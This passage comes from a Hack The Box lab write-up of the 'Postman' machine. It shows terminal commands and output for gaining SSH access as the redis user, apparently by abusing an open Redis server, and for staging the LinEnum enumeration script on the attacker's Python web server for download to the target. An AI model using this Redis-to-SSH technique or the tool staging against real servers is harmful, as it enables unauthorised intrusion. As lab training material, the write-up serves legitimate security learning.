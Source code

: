 ```
shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ redis-cli -h 10.10.10.160 save
OK
shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ ssh -i ~/.ssh/id_rsa redis@postman.htb
ssh: Could not resolve hostname postman.htb: Name or service not known
shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ ssh -i ~/.ssh/id_rsa redis@10.10.10.160
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch
Last login: Mon Aug 26 03:04:25 2019 from 10.10.10.1
redis@Postman:~$ ^C
redis@Postman:~$ 

```
## Foothold on the Box

SimpleHttpServer to get linenum onto the box

on kali machine: 
```
shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2020-03-16 11:35:55--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 199.232.76.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|199.232.76.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                              100%[==============================================================================>]  45.54K  --.-KB/s    in 0.03s   

2020-03-16 11:35:56 (1.29 MB/s) - ‘LinEnum.sh’ saved [46631/46631]


shotop@kali:~/Pentesting/HackTheBox/PublicBoxes/Postman$ python -m SimpleHTTPServer 2222
Serving HTTP on 0.0.0.0 port 2222 ...

```
On host:

```

```
